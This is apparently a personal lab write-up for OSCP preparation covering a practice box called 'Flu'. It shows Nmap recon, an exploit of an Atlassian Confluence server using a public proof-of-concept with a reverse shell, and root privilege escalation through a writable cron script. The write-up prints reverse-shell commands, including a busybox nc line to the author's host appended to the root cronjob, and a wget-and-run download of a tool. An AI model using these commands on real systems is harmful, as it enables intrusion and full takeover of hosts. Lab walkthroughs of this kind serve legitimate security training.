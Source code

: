 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Flu
---
```


**Start 08:23 07-02-2025**

---
```
Scope:
192.168.192.41
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- flu -sT --min-rate=5000 -T5

PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEXrRUno9oC8lTzQc4mkRYkhVE1WFraJqALzhn+4EmH4j57s4WioLYYYESpMPsdluWAXJreN+LVlUL/5UteMBbI=
|   256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIITU00dnwzhT+PFW6y7qRlFYCQ0UzFakp4R4NIq5TWiS
8090/tcp open  http     syn-ack Apache Tomcat (language: en)
| http-title: Log In - Confluence
|_Requested resource was /login.action?os_destination=%2Findex.action&permissionViolation=true
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 966E60F8EB85B7EA43A7B0095F3E2336
|_http-trane-info: Problem with XML parsing of /evox/about
8091/tcp open  jamlink? syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:30 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:35 GMT
|     Connection: Keep-Alive
|_    content-length: 0
```

It seems to be running an **Atlassian Confluence** server which has been covered in [[18. Port Redirection and SSH Tunneling#18.2.1 - Simple Port Forwarding Scenario|this chapter]].  

![](../../../assets/2db6bdb99a649768b43823a4caf61ea1.png)

For this I quickly find a PoC on GitHub I can use:

![](../../../assets/b9fed0e977e243295676b442c32d8c9b.png)

Let's go ahead and boot it up.


## Foothold

```bash
python3 through_the_wire.py --rhost 192.168.192.41 --rport 8090 --lhost 192.168.45.228 --protocol http:// --reverse-shell
```

![](../../../assets/1d05832821b604448dcfdd8810e6a5ae.png)

Ez Pz, let's start enumerating.


### local.txt

![](../../../assets/795b7078fad34813df3b270ddcbea0b9.png)

It appears we're the only user, so let's change to our `/home` directory and start from there.

![](../../../assets/7fad0813ec679c498841ae14068156f2.png)


## Privilege Escalation

![](../../../assets/12efcc54b7cdb27346effa51e24f43dc.png)

![](../../../assets/136156ebad2b267f0fd84949bf71fde8.png)

![](../../../assets/22e1e15d30629ec4b98ea443953ed053.png)

We don't find anything interesting otherwise using linpeas excpet for the `/opt/log-backup.sh` file but I don't know how to leverage it yet, thus I download over `pspy`.

```bash
wget http://192.168.45.228/pspy32 -O pspy
chmod +x pspy
timeout 60s ./pspy
```

![](../../../assets/749a7933dd726350d6fe437b919c703d.png)

And yet again we see what happens underneath:

![](../../../assets/876e51f8e607cc2472fbab6a8a187380.png)

:::important
Since it is a cronjob run by *root* where we have read and write privileges on, we can go ahead and add the following line at the end, which on execute will grant us a `root` shell.
:::

```bash
echo 'busybox nc 192.168.45.228 443 -e bash' >> /opt/log-backup.sh
```

![](../../../assets/31e5548e19c537f701d4e606e373eb18.png)

![](../../../assets/9b155f66f51cb7b13d384169cf67dc98.png)

:::success
Worked like a charm.
:::

## proof.txt

![](../../../assets/3ed74f30ed80ba9ef9e4f20e63934bef.png)

---

**Finished 09:07 07-02-2025**

[^Links]:  [[OSCP Prep]]

